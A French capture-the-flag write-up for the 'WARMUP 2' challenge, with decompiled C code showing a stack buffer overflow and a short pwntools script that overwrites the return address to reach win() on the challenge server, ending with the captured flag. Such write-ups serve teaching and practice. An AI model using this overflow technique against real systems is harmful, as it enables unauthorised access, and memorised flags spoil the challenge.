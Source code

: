 
# WARMUP 2
> 70 points
>
> Author: W1z4rd

## Fonctionnement
Pour ce challenge, l'auteur a joint un fichier binaire que nous avons décompilé avec `ghidra`. Nous avons découvert trois fonctions appelées: `main()`, `vuln()` et `win()`.


```c
void main(EVP_PKEY_CTX *param_1)

{
  init(param_1);
  do {
    vuln();
  } while( true );
}

void vuln(void)

{
  int iVar1;
  ssize_t sVar2;
  size_t sVar3;
  char local_1f [10];
  undefined8 local_15;
  undefined local_d;
  int local_c;
  
  local_15 = 0x7365696e6f6c6f43;
  local_d = 0;
  puts("###                              ###");
  puts("###         Welcome              ###");
  puts("###      Haclerkab 2023          ###");
  puts("###                              ###");
  puts("###                              ###");
  putchar(10);
  printf("What\'s your Pseudo?: ");
  sVar2 = read(0,local_1f,0x100);
  local_c = (int)sVar2;
  local_1f[local_c + -1] = '\0';
  sVar3 = strlen((char *)&greeting);
  write(0,&greeting,sVar3);
  sVar3 = strlen(local_1f);
  write(0,local_1f,sVar3);
  sVar3 = strlen((char *)&exclamation);
  write(0,&exclamation,sVar3);
  iVar1 = strncmp((char *)&local_15,"danhomey",8);
  if (iVar1 == 0) {
    win();
  }
  return;
}

void win(void)

{
  puts("Kudos. Great !!!!");
  system("/usr/bin/cat flag.txt");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Le programme exécute indéfiniment la fonction vuln() dans sa fonction principale. Après l'affichage de la bannière, la fonction vuln() demande d'entrer une chaine de caractères à travers la fonction `read()` et stocke les données dans local_1f. La taille maximale lue est de 0x100 (256) octets. Elle utilise `write()` pour afficher trois chaînes de caractères : `greeting`, l'entrée utilisateur `local_1f`, et `exclamation`, définies ailleurs. Elle effectue ensuite une comparaison entre les 8 premiers caractères de la chaîne stockée dans local_15 et la chaîne "danhomey". Si la comparaison est vraie (c'est-à-dire si les 8 premiers caractères de local_15 sont égaux à "danhomey"), la fonction win() est appelée.

Ah on constate que la fonction `win()` est chargée d'afficher notre flag dans le fichier flag.txt du répertoire courant! 

## Solution

Pour obtenir notre flag, il nous faut bypasser le contrôle effectué avant et passer directement à l'exécution de la fonction `win()`. La première idée qui nous est venue à l'esprit est d'exploiter une vulnérabilité buffer overflow en abusant de l'entrée utilisateur. Et cela se confirme faisable étant donné que local_1f est de 10 octets de long et nous sommes autorisé à founir une chaine de 256 octets. Cela nous laisse une marge de 246 octets qui est largement suffisante pour écraser le contenu du registre RIP en remplaçant son contenu par l'adresse de notre fonction `win`. Il ne nous reste plus qu'à trouver le padding ([11,256]) nécessaire. 

Nous avons utilisé l'exploit suivant:
```
from pwn import *

target = remote("54.37.70.250", 3013)

target.recv()

padding = b"aaaabaaacaaadaaaeaaafaaagaaahaa"

payload = padding + p64(0x004011d9)

target.sendline(payload)
 
print(target.recv())

```

Et bingo nous avons notre flag !

<img src=File/warmup2.png >


> Flag : CTF_v4r14bl3_0v3rfl0w_r3wr1t3_!!!6Z5Z6))

